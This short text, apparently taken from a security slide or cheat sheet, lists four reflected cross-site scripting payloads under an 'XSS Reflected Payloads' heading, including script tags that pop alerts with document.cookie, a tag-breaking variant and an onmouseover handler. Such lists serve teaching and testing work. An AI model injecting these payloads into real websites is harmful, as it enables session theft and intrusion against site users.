

# XSS Reflected Payloads
<script>alert(1);</script>
<script>alert(document.cookie);</script>
"><script >alert(document.cookie)</script >
<a onmouseover="alert(document.cookie)">xss link</a>